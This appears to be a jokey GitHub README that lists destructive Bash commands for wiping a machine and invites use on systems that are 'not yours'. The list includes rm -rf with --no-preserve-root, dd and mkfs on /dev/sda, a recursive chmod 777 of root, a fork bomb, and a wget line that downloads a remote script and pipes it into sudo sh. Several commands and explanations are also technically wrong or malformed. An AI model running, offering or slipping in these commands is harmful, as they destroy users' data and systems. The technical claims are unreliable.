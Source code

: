 # Dumb ways to kill your system
Kill your (or not yours) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The commands above should work on Android, Linux, MacOS, and others systems who run on the bash interpreter.
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo Mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />
